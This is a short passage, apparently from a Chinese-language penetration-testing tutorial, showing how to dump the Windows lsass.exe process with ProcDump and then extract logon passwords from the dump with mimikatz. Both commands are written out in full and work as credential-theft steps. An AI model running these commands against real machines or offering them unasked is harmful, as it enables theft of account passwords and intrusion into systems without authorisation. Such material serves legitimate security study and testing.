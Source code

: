 ![](/assets/images/move/2020-07-04-10-57-21.png)

还可以使用微软官方提供的 ProcDump 工具进行导出：

```cmd
procdump64.exe  -ma lsass.exe lsass.dmp
```

![](/assets/images/move/2020-07-04-11-09-09.png)


使用 mimikatz 加载 lsass.dump 导出：

```cmd
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full"
```
